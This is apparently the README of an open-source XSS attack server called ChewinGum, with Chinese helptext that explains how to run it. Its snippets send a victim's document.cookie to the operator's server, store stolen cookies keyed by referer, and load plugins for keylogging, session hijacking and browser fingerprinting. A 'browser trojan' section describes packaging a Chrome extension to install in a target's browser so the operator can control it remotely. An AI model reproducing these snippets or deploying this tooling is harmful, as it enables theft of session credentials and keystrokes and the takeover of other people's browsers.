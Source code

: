 # ChewinGum [beta][0.292][1140510]

Name
----
***ChewinGum - individual XSS Server***

Startup
-------
    python ./config.py install [ salt filekeyPath | -h ]
    python ./chewingum.py [ host port debug | -h ]

Dependencies
------------
* [Bottle-0.12](http://bottlepy.org/)
* [Bottle-websocket](https://github.com/zeekay/bottle-websocket/)
* [Pure](http://purecss.io/)

  unnecessaries
  -------------
    * [Beaker](http://beaker.rtfd.org/)

Reference
---------
* Gum.js            - [xss.js](http://zone.wooyun.org/content/2113)
* get_info.js       - [BeEF](http://beefproject.com/)
* wec_cssbug.html   - [CSS3事件的消息回调BUG](http://www.web-tinker.com/article/20339.html)
* get_networkip.js  - [Network IP Address via ipcalf.com](http://net.ipcalf.com/)
* tool_keylogger.js - [XSS keylogger](http://wiremask.eu/xss-keylogger/)

Helptext
--------

**1.Login**

采用filekey验证, 上传filekey或输入URL便可登录.

**2.Server**

server处代码会直接在项目触发时执行,  
最终会将变量serverinfo和变量browserinfo保存至数据库,  
格式需为json/dict格式

    {'name':'value'}

如:

    serverinfo = {
	    'referer':b64ens(request.headers.get('Referer')),
    	'ctime':b64ens(ctime())
	}
	browserinfo = {
    	'cookie':b64ens(request.forms.cookie)
	}

**3.Server code keyword**

*ifstatus*  
对变量ifstatus赋值, 会触发对应status.  
如:

	ifstatus = 404

*returns*  
对变量returns赋值，会返回对其赋值的内容.  
如:

	returns = '<script>alert(1)</script>'

*gum.backinfo*  
客户端的关键字，是一个字典，默认用来暂时记录返回的信息。  
当返回之后最好清空它。

    gum.backinfo = {};

**4.Project name and Object name**

project 的项目名需是xss触发处的url或是domain.  
$default是默认项目, xss触发时若未发现对应项目则按照此配置进行.

	object 的项目名可随意更改.

**5.Plugins**

可以这样导入server扩展,

	with open('./static/serv/get_info.py') as files: exec files.read()

也可以这样

    from static.serv.email_remind import send_mail
    send_mail(gum_emailremind)

>    具体看扩展的写法

可以这样导入browser插件,

	gum.script('http://' + gum.domain + '/static/brows/tool_boomerang.js')


这样给browser插件传参,

	gum_boomerang = {
		'object_url':'http://localhost/xss',
		'post':{'xss':'yes', 'csrf':'no'},
		'eval':function(){alert(1)}
	}

同样的方法给server扩展传参,

	gum_keepsession = {
		'url':referer,
		'session':cookie,
		'data':{'a':'b'},
		'frequency':300,
		'endate':'2013-12-12 15:17:00'
	}

**6.Set code**

这样发送browser info,

    gum.post('http://' + gum.domain + '/ing', {'cookie':document.cookie})

单次接收browser info可以参考上面的2.server  
也可以这样

    browserinfo['infoname'] = b64ens(request.forms.infoname)

多次接收browser info可以像这样,

    info_cookie = b64ens(request.forms.cookie)
	sessionid[referer][1]['cookie'] = info_cookie
	browserinfo = sessionid.get(referer)

>	不推荐使用多次接收，默认已关闭。

**7.Easy example**

使用基本探针:

server:

    with open('./static/serv/get_info.py') as files: exec files.read()

browser:

    gum.script('http://' + gum.domain + '/static/brows/get_info.js', function(){
        gum.post('http://' + gum.domain + '/ing', gum.backinfo);
        gum.backinfo = {};
    })

**8.Console**

javascript文件在

    ./static/brows/onexsshell.js

>    尚在测试阶段。

**9.Browser trojan**

chrome  
修改./trojan/chrome/gum.js中的{{domain}}为你的chewingum的域名及端口  
使用chrome or chromium打包  
安装在目标的浏览器后，使用console即可操作目标浏览器。  

>    尚在测试阶段

**10.Plugins header specification**

    Author[Reference] - Date
        Name - Dependencies
                - Synopsis
            Example
                and
            Dependencies Plus

>   好吧我知道不会有人帮我写插件的...

Demo
----
![](http://quininer.github.io/image/xsshell_1.png)
![](http://quininer.github.io/image/xsshell_2.png)

Developers
----------
*   [quininer](mailto:quininer@live.com)([@quininers](https://twitter.com/quininers))
